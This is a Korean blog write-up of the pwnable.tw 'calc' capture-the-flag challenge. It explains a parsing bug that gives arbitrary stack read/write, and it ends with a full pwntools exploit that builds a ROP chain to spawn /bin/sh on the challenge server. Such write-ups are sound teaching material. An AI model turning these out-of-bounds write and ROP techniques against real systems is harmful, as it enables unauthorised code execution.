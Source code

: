 ```yaml
---
layout: post
title: ! ' [pwnable.tw] calc writeup '
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - pwnable.tw
  - pwnable
---
```


pwnable.tw 문제 풀었습니다. 150점 짜리면 세번째로 쉬운건데 너무 오래걸렸네요... 갈 길이 멉니다..

<!--more-->

## calc (150 pts)

[pwnable.tw](https://pwnable.tw/) 문제입니다. 여긴 난이도가 꽤 있는거 같아요.. 확실히 100pts 문제에 비해 푼 사람이 절반이라는 게 놀랍군요.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic01.PNG)

문제 자체는 상당히 심플한 프로그램입니다. 계산기에요. 근데 프로그램 코드가 좀 긴 편입니다. 분석하기 싫게 만들었어요. main 함수 안으로 들어가보면 알람 60초 걸어놓고 calc 함수를 호출하는 데, 이게 가장 중요한 함수입니다. 들어가서 의사코드로 확인해볼게요.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic02.PNG)

무한루프로 1분동안 계속 실행되고, get_expr, parse_expr 함수가 눈에 띕니다. get_expr 함수는 입력받아서 화이트리스트를 통해 올바르지 않은 입력값은 아예 받아들이지 않습니다. 반면에 걸러진 표현식은 expr 변수에 저장됩니다. 이 함수는 표현식이 올바른지는 검사하지 않습니다. 단지 화이트리스트 내의 원소에 포함인지만 검사해요.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic04.PNG)

parse_expr는 걸러진 표현식을 이용해 계산을 수행합니다. 내부적으로 eval 이라는 함수를 이용해서 계산하는데, 계산하는 방식이 조금 특이합니다. 16 + 4 라는 표현식을 계산한다고 가정 해 봅시다. 먼저 1과 6을 넘긴 뒤 '+'에 도달하면 표현식을 분해하기 시작합니다. 16은 2bytes를 차지하므로 null 까지 3bytes를 동적 할당한 뒤, 이를 atoi 함수를 이용해서 int형으로 바꾸어주는 작업을 합니다. 바뀐 숫자는 poll 배열에 들어갑니다. 그 뒤 기호 배열(s)이 현재 비어있으므로, '+' 기호를 기호 배열에 넣습니다. 다음 숫자 4를 넘기고 expr 분석을 종료하면 기호 배열에서 연산 기호를 빼내면서 차례대로 연산합니다. 만약 *, /가 등장하면 이는 스택처럼 작동하여 적절하게 우선순위 연산을 수행합니다.

parse_expr이 에러를 감지하는 경우는 크게 두가지입니다. 첫 번째로는 연산 기호 이후에 숫자가 오지 않았을 경우입니다. 두 번째로는 숫자에 '0'이 나오는 경우입니다. 이 두 가지의 경우는 계산을 강제로 종료하고, 나머지는 정해진 대로 연산을 수행합니다. 그런데 문제는 맨 처음에 숫자 대신 연산 기호가 나타나는 경우를 제어하고 있지 않아서 발생합니다.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic03.PNG)

현재 계산을 수행하는 과정은 가장 처음 표현식이 숫자라고 가정하면서 출발합니다. 만약 숫자, 연산기호, 숫자의 형식이 아니라 연산기호, 숫자의 형식으로 값이 들어와도 정상이라고 생각하죠.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic06.PNG)

보기 쉽게 바꿔주면 이렇습니다. IDA에서 구조체 선언은 처음 해봤는데 보기 편하네요. 

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic05.PNG)

eval에서 연산할 때 p->numbers의 배열을 참조하는데, 이때 cnt의 값에 따라서 참조하는 배열 위치가 다릅니다. 그런데 이부분을 init_pool에서 100개까지만 정리하므로 그 밖의 값들은 정리가 안될거에요. 그럼 이런 상황에서 만약에 '' + 100과 같은 값을 입력했다고 가정해봅시다. 일단 ''이 atoi('')에서 0을 반환하는 데, 0의 경우에는 numbers에 접근하지 않습니다. 근데 numbers에 접근하지 않으면 cnt도 증가시키지 않아요. 그리고 '+' 연산 기호가 스택에 들어가고, 100이 numbers에 접근하면서 cnt가 1이 됩니다.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic07.PNG)

지금 cnt가 1이죠. 그런데 eval 함수에서 더하기 연산을 하면서 `p->numbers[-1] = p->numbers[-1] + p->numbers[0]`이 됩니다. p->numbers[-1]은 p->cnt입니다. 그러면 p->cnt가 1이었다가 입력해준 숫자랑 더해지면서 101이 될겁니다. eval에서 마지막에 --p->cnt를 해주면서 다시 입력해 준 숫자가 됩니다. 결국 p->cnt가 매우 커졌을뿐만 아니라, 우리가 원하는 값으로 제어됩니다. 그럼 출력하는 부분을 볼까요?

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic08.PNG)

p->numbers[p->cnt - 1]입니다. 그러면 p->cnt가 우리가 입력한 값이니까 `입력한 값-1` 의 위치에 있는 정수를 출력할 수 있게됩니다. p->numbers의 0번째부터 canary까지는 `356(*4) bytes` 만큼 떨어져있으니, 입력할 값을 357로 해주면 canary가 출력됩니다.

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic09.PNG)

또한 임의 메모리에 값을 덮어쓸 수도 있게되었습니다. 임의 메모리 오프셋으로 p->cnt 값을 조정해주고 거기다가 값을 더하거나 빼면 eval함수에서 해당 메모리의 값이 조작되니까요. 이를 기반으로 익스플로잇 코드를 작성했습니다.

```python
from pwn import *

PROCESS = "./calc"
HOST = "chall.pwnable.tw"
PORT = 10100
#r = process(PROCESS)
r = remote(HOST, PORT)

addr_bin_sh = 0x080ee360
_bin = 0x6e69622f
__sh = 0x0068732f

pop_eax = 0x0805c34b # pop eax; ret
pop_ecx_ebx = 0x080701d1 # pop ecx; pop ebx; ret
pop_edx = 0x080701aa # pop edx; ret
write_ecx = 0x080958c2 # add [ecx], eax; ret
int80 = 0x08070880 # int 0x80; ret

def main () :
	r.recvuntil("==\n")
	insert(361, pop_eax)
	insert(362, _bin)
	insert(363, pop_ecx_ebx)
	insert(364, addr_bin_sh)
	insert(365, addr_bin_sh)
	insert(366, write_ecx)
	insert(367, pop_eax)
	insert(368, __sh)
	insert(369, pop_ecx_ebx)
	insert(370, addr_bin_sh+4)
	insert(371, addr_bin_sh+4)
	insert(372, write_ecx)
	insert(373, pop_eax)
	insert(374, 0xb)
	insert(375, pop_ecx_ebx)
	insert(376, addr_bin_sh+8)
	insert(377, addr_bin_sh)
	insert(378, pop_edx)
	insert(379, addr_bin_sh+8)
	insert(380, int80)
	r.sendline("")

	# get shell
	r.interactive()

def insert (index, data) :
	show = "+" + str(index)
	r.sendline(show)
	origin = int(r.recvline())
	if (origin < 0) :
		origin *= -1

	payload = show
	payload += "+" + str(int(data))
	payload += "-" + str(origin)
	r.sendline(payload)
	print (payload)
	r.recv(1024)

if __name__ == '__main__' :
	main ()
```

.BSS 영역에 /bin/sh를 써주고 실행시키는 쉘 코드를 연산을 통해 작성했습니다. 쓰고보니 쓴 값에 따라서 꼬랑지가 결정되므로 좀더 이쁘게 쓸 수 있더라구요.. 그래도 뭐 작동하니까요 ㅎ..

![]({{ site.baseurl }}/images/KRater/2018-10-02-pwnable-tw-calc/pic10.PNG)

읽어주셔서 감사합니다 :)
